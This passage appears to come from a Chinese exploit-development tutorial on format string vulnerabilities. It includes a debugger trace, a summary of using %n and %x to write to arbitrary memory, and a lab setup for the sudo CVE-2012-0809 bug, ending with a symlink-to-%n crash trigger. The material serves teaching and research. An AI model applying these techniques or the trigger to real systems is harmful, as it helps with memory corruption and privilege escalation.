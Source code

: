 再次执行，步过一开始代码中写的 int 3，程序中断在了`0x18fb48`：

```
0:000> g
(544.7d4): Break instruction exception - code 80000003 (first chance)
eax=00000000 ebx=7efde000 ecx=00407060 edx=0008e3b8 esi=00000000 edi=00000000
eip=0018fb48 esp=0018ff50 ebp=0018ff88 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
0018fb48 cc              int     3

```

按照上面的方法，替换 shellcode 的内容，重新计算相关的长度，就可以实现漏洞利用了。

2.3 总结
------

根据上面的调试过程，当遇到格式化字符串漏洞时，就可以在任意位置写入任意内容了。其中有几个要点：

*   通过`%【数字】x`控制已打印字符数，从而控制写入内容
*   通过`%n`实现写入功能
*   通过控制`%x`的个数控制写入的位置
*   `%x`的个数以及具体的输入内容可以根据 2.2.2 中介绍的方法进行确定，关键是要对栈中的数据结构有一个判断。

3. 漏洞分析
=======

3.1 漏洞介绍
--------

CVE-2012-0809 是 sudo 程序中的一个格式化字符串漏洞，存在于版本 sudo 1.8.0 - 1.8.3p1 中。

3.2 环境搭建
--------

kali 版本：

```
root@kali:~/Desktop# uname -a
Linux kali 5.10.0-kali7-686-pae #1 SMP Debian 5.10.28-1kali1 (2021-04-12) i686 GNU/Linux

```

1.  卸载原始 sudo：

```
apt-get --purge remove sudo

```

1.  下载 [sudo 1.8.2](https://www.sudo.ws/dist/sudo-1.8.2.tar.gz)
2.  解压缩并进入文件夹 sudo-1.8.2:
    1.  `./configure`
    2.  `make`
    3.  `make install`

漏洞验证：

```
root@kali:~/Desktop# ln -s /usr/local/bin/sudo %n
root@kali:~/Desktop# ./%n -D9
Segmentation fault

```
